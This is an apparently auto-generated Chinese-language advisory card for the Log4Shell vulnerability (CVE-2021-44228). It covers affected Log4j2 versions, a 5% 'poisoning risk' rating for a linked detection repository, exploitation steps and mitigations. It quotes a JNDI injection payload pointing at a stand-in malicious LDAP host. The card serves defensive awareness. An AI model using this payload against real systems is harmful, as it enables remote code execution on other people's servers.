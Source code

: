 ## CVE-2021-44228-Log4Shell

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，允许攻击者完全控制受影响的系统

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2、2.12.3 和 2.3.1)

**利用条件:** 目标系统使用了受影响版本的 Log4j2，且允许消息查找替换。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2021-44228 (Log4Shell) 是 Apache Log4j2 中的一个严重漏洞，攻击者可以通过控制日志消息或日志消息参数，从 LDAP 服务器加载并执行任意代码。漏洞利用方式是向服务器发送包含特定格式的 JNDI 注入payload的请求，例如 `${jndi:ldap://malicious-server.com/exploit}`。如果 Log4j2 记录了该请求，它会尝试解析该字符串，从而触发 JNDI 查找并从恶意服务器下载和执行代码。

**有效性：**
根据漏洞信息和搜索结果，该漏洞被广泛利用，POC代码有效。Unit 42、NVD、CrowdStrike、Sysdig、Oracle 等多个安全机构都发布了关于该漏洞的分析和缓解措施，证明了其真实性和危害性。

**投毒风险：**
提供的代码仓库主要侧重于使用机器学习方法检测Log4Shell攻击，而非直接的漏洞利用。尽管仓库中包含用于训练模型的日志数据和Python脚本，这些组件本身不太可能直接包含投毒代码。

风险在于：
1.  **数据污染：** 训练数据中可能包含精心构造的、旨在降低检测模型准确性的恶意日志条目（例如，通过添加混淆或规避技术），占比约5%。
2.  **依赖项风险：** `requirements.txt` 中列出的某些依赖项可能存在安全漏洞，但这不是作者的有意投毒。

总体而言，此代码仓库的投毒风险较低，约5%。

**利用方式：**
1.  攻击者将恶意 JNDI 注入 payload 插入到应用程序的日志消息中，例如通过 HTTP 请求头、POST 数据或其他用户可控的输入。
2.  如果应用程序使用存在漏洞的 Log4j2 版本记录此消息，Log4j2 会尝试解析 JNDI 字符串。
3.  Log4j2 触发 JNDI 查找，连接到攻击者控制的 LDAP 或 RMI 服务器。
4.  恶意服务器返回一个包含 Java 类的响应，该类包含攻击者想要执行的恶意代码。
5.  Log4j2 加载并执行该 Java 类，从而允许攻击者在目标系统上执行任意代码。

**缓解措施：**
*   升级 Log4j2 到 2.17.0 或更高版本。
*   禁用 JNDI 查找。
*   配置防火墙规则以阻止出站 LDAP 和 RMI 连接。

**项目地址:** [yadavmukesh/Log4Shell-vulnerability-CVE-2021-44228-](https://github.com/yadavmukesh/Log4Shell-vulnerability-CVE-2021-44228-)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)